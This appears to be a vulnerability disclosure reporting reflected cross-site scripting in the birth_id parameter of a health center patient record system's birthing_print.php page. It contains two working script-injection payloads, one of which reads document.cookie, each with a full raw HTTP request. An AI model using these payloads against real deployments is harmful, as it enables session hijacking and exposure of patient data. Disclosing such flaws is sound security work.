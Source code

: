 # Health Center Patient Record Management System v1.0 has Cross-site scripting (reflected)

BUG_Author: wangte

Vulnerability File: /HCPMS/birthing_print.php

Parameter "birth_id" (GET), exists XSS vulnerability

Payload1:birth_id=1"><script>alert(1111)</script>

```
GET /HCPMS/birthing_print.php?birth_id=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/2689469248/bug_report/blob/main/pictures/xss1.png)

Payload2:birth_id=1"><script>alert(document.cookie)</script>

```
GET /HCPMS/birthing_print.php?birth_id=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close
```

![image](https://github.com/2689469248/bug_report/blob/main/pictures/xss2.png)
